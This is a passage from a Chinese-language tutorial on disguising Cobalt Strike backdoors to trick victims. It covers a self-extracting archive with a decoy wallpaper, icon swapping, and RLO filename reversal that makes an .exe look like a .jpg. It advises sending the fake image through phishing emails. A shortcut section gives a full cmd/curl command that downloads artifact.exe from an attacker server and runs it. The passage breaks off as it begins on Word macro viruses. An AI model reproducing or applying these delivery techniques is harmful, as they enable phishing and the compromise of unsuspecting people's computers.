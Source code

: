 C:\windows\temp\壁纸.jpg

模式——全部隐藏

更新——更新模式——解压并更新文件

更新——覆盖模式——覆盖所有文件

![]()

![]()

步骤三：使用resourcehacker更换文件图标,将其伪装成图片

![]()

步骤四：把文件重命名为壁纸gpj.exe，再使用RLO对后缀进行反转，最后效果如下

![]()

结合邮件钓鱼等方式把“图片”放送给他人，引诱他人上钩

对方双击“图片”后，会同时执行artifact.exe和壁纸.jpg，而且上线cs

![]()

### 0x02.快捷方式

制作思路：运行快捷键方式时，执行命令让其下载我们提前放在服务器上的后门程序并且运行

步骤一：cs生成后门，放到服务器网站目录下  

![]()

步骤二：创建快捷方式，在目标中写入以下代码

    
    
    C:\Windows\System32\cmd.exe /k curl http://xxx.xxx.xxx.xxx/exe/artifact.exe --output C:\Windows\temp\win.exe && C:\Windows\temp\win.exe

![]()

步骤三：更换图标，增加其真实性  

![]()

![]()

当对方双击快捷键方式时就会下载我们准备好的artifact.exe并且执行

![]()

### 0x03.Word宏病毒

宏病毒是Word中被嵌入的带有恶意行为的宏代码（VBA代码），当我们双击打开带有宏病毒的word文档的时候它的宏代码会自动运行。
